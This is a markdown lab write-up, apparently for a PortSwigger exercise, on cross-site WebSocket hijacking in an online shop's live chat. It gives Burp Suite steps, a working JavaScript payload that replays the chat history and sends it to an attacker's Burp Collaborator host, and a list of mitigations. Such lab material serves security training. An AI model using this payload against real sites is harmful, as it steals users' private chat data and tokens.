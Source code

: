 # Cross-site Websockte hijacking 


##  Lab Description
This lab simulates an online shop with a live chat feature using **WebSockets**. The server does not verify origin headers or use CSRF tokens during the WebSocket handshake, making it vulnerable to **Cross-site WebSocket Hijacking**. Our goal is to craft a malicious JavaScript payload that exfiltrates the chat history of a victim.


##  Steps to Exploit

1. **Trigger the WebSocket:**
   - Click on **"Live chat"** and send a dummy message to populate chat history.

2. **Reload the page** to ensure the message is stored.

3. **Capture WebSocket Activity in Burp:**
   - Go to **Burp Suite → Proxy → WebSockets tab**.
   - Look for a **"READY"** message sent by the client which causes the server to respond with previous chat history.

4. **Grab WebSocket Handshake:**
   - In Burp’s **HTTP history**, locate the WebSocket handshake request (usually `GET /chat`) with status code 101.
   - **Right-click → Copy URL**.

5. **Build the Exploit Payload:**
   - Use the following JavaScript on the exploit server:

```html
<script>
  var ws = new WebSocket('wss://<websocket-url>');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch("https://<your-collaborator>.burpcollaborator.net", {
      method: "POST",
      mode: "no-cors",
      body: event.data
    });
  };
</script>
```

6. **Deliver the Payload:**
   - Host the above payload using the provided **exploit server**.
   - Send the exploit link to the victim or simulate their click.

7. **Observe the Exfiltrated Data:**
   - Monitor **Burp Collaborator** for incoming data – it will contain chat history from the victim’s account.

8. **Use Captured Data to Log In / Verify Lab Completion.**


##  Impact

- Allows an attacker to hijack sensitive real-time data (chat, credentials, tokens) over WebSocket.
- Enables **cross-origin** data theft, bypassing SOP if the server doesn't verify origin.


##  Mitigation

- **Verify Origin Headers** before accepting WebSocket connections.
- Implement **authentication** on WebSocket messages.
- Use **CSRF tokens** or **session validation** within the message body.
- Only allow trusted origins and **close the socket** on mismatch.

##  References

- [PortSwigger WebSockets Security](https://portswigger.net/web-security/websockets)
- [OWASP WebSocket Security](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/13-Testing_WebSockets)
